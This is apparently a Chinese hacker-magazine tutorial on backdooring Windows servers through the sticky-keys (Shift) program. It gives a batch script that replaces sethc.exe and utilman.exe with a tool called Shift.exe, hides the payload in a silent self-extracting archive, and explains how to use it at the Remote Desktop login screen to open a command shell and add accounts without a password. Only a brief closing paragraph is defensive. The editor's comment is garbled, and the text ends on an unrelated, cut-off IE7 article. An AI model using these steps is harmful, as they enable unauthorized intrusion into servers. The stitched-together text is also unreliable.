













## 连载 Shift

菜菜的世界

从本次你可以学到：

- 利用 Shift 键突破远程桌面的密码验证

### 一、编写批处理文件

现在网络中已经出现了多个 Shift 键的利用程序，不过要使用这些利用程序，首先要生成一个批处理文件。打开文本编辑器后写入下面这段代码，然后将其另存为后缀名为 bat 的文件（如图 1）。



```bat
@echo off
copy Shift.exe %SystemRoot%\system32\sethc.exe
copy Shift.exe %SystemRoot%\system32\sethc.exe, y
copy Shift.exe %SystemRoot%\system32\sethc.exe, y
attrib %SystemRoot%\system32\sethc.exe -h
attrib %SystemRoot%\system32\sethc.exe +h
copy Shift.exe %SystemRoot%\system32\utilman.exe
copy Shift.exe %SystemRoot%\system32\utilman.exe, y
del %0%
```

这段代码的意思是，将 Shift.exe 这个文件复制到系统的 system32 目录内并替换掉 sethc.exe，替换原有的粘滞键程序，然后将 sethc.exe 设置为隐藏，最后再删除 Shift.exe 文件。这样一个程序就完成了本章制作。

### 二、得到所需的文件

现在通过 WinRAR 将批处理文件和利用文件进行压缩，接着打开这个 RAR 文件，并添加一个自解压格式图标。在弹出的对话框中点击“高级自解压选项”，在弹出的“高级自解压选项”窗口中选择“解压到”选项卡，再在它的“解压至”中填入 `%SystemRoot%`，这表示系统的安装目录；然后在“解压缩之后运行”中输入 bat 批处理文件的名称（如图 2）。现在点击“模式”选项卡，选中“全部隐藏”和“覆盖所有文件”这两个选项，确定退出就可以了。



### 三、利用 Shift 进行入侵

现在将自解压文件上传到远程系统中运行，这样利用工具就会替换系统中的粘滞键程序。然后利用远程桌面来连接远程服务器，这时远程系统会弹出一个登录窗口。现在我们连续五次点击 Shift 键，这时就会弹出 Shift 键的利用工具，表面上它和粘滞键程序界面相同，但是只需设置一些内容就可以。现在输入密码 123456 以后，会有“运行 cmd”和“启动为桌面”按钮（如图 4）。点击“运行 cmd”按钮，就可以进入系统的命令提示符窗口，这时就能利用 net 命令来创建一个新的账户进行登录。另外点击“启动为桌面”按钮，就可以启动系统的 explorer.exe 进程，从而绕过系统登录窗口进入桌面进行控制。





### 四、提高警惕很重要

现在已经有大量的服务器被植入了 Shift 键的利用程序，因此以后当我们通过扫描获得 3389 端口以后，就可以试着点击几下，看看是否有相应的程序可以利用。同样作为网站的管理员，也可以试着点击五次 Shift 键，查看服务器系统是否安装了利用程序，如果有的话就应立即进行删除操作。

## 编辑点评

这篇文章谈到了多种原因。一个是文章虽然没有详细解释是什么意思，但是这种文章的思路就是很厉害。我觉得大家写这类文章也很久没写了。更重要的是一种思路，虽然有点惊险，但像个“放大镜”的利用方法，也算是一种角度。只是要写一篇这样的文章，就成了把 RAR 打包文件的一道门槛。还有一个原因就是文章中整理了不少可供大家参考的工具，放在这里不妨说一说，先记着，找不来就算了，或许研究一下吧。

## 总结

笔者从采访中发现，这到现在仍然是个流行的方法，不过这也是因为有很多朋友不知道其所以然。我的这个东西不知道有没有让菜鸟明白，呵呵，只是让你知道了一点点也是好的。还有，我把要用的 ASP 程序上传到我空间，大家可以真正地体验“手把手教学”，对整套技术的内容进行一番体验。

编辑点评：

希望大家都找到了适合自己的本事。好了，我的话完了。

## 无法完成 IE 7 个性化设置的解决方法

从本文您可以学到：怎样通过组策略和注册表取消 IE7 的个性化设置页面。

前些日子朋友的电脑换上了 IE7.0 中文版，给我打来了电话描述他所遇到的问题。

问题描述：安装完 IE7.0 后打开浏览器就会自动打开 IE 7 个性化设置页面（http://runonce.msn.com/runonce2.aspx），如图1（在左下角），导致无法完成设置。






